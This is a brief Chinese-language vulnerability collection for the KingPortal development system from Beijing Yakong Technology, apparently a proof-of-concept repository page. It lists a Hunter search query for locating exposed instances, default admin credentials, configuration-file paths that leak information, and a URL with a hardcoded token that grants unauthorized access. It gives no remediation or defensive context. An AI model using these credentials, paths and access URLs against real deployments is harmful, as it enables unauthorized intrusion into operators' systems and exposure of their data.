 ## 北京亚控科技KingPortal开发系统漏洞集合

## Hunter
```
web.title="KingPortal"
```


## 弱口令
```
admin001/admin001
admin001/kf_admin
```

## 信息泄露
```
/ProjectManager.json
/config/externalConfig.json
```

## KingPortal开发系统未授权访问
```
http://域名:11002/views/ProjectDataSourceAccess.html?token=2ccdf191078bd4e8e85b526ec44f7dd31ad7cf81&amp;refreshToken=null

```

## 漏洞来源
- https://mp.weixin.qq.com/s/fYnLnoeHvYFwaSSKfBjQZw
